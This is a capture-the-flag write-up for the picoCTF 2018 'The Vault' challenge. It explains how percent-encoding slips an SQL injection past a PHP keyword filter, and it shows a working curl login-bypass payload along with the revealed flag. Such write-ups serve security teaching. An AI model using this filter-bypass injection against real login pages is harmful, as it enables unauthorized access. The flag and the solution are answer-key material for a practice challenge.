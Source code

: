 # The Vault
**Category:** Web Exploitation
> There is a website running at `http://2018shell1.picoctf.com:64349`
> ([link](http://2018shell1.picoctf.com:64349/)). Try to see if you can login!

The source code is provided, but you may be able to solve this even without
access. The gist of it is that the server uses some simple filtering rules to
detect injection attempts, so we need to find a way to perform SQL injection
while bypassing the filtering.

One common tactic is to use percent-encoding, which will automatically be
decoded on the server side but obviously will not be matched against the simple
character match rules in PHP.

	$ curl http://2018shell1.picoctf.com:64349/login.php -d 'username=admin%27%20--%20&password=sadf&debug=0'
	<h1>Logged in!</h1><p>Your flag is: picoCTF{w3lc0m3_t0_th3_vau1t_e4ca2258}</p>

flag: `picoCTF{w3lc0m3_t0_th3_vau1t_e4ca2258}`
